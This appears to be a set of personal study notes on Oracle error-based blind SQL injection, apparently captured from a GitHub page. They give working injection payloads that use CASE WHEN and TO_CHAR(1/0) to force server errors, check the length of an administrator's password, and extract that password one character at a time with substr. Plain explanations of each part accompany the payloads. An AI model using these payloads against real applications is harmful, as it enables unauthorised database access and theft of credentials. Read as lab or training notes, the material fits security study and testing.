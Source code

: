
**Find Column Name ???**
```

```


Find a Variable in a Column
```
' || (select '' from TABLE where COLUMN='administrator') || '   ---> NOT GOOD

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator') || '                                    ---> (True = Error)

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='fwefwoeijfewow') || '                                   ---> (False = 200)
```

1st Query (NOT GOOD)           ---> This query does not work since a false or true response will always display a 200 response (And might not display a HTML code that allow us to verify)
		This then mean we need to use a query to will response a error code when the query is valid and a 200 response when the query is false

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
THEN TO_CHAR(1/0)                ---> Create an Invalid query (1/0 = Invalid)
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in

This mean that if the user is found, it will not return an error, and if it is not found it will prive an invalid statment

**Take also note that the query is been read from (FROM users -> to the right and after pass the CASE WHEN query part)**


Length of Variable (>,<,<=,>=)
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator' and LENGTH(password)>19) || '
```

200 response                              ---> False
500 response                              ---> True

Enumeration of variable
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,2,1)='a') || '
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)
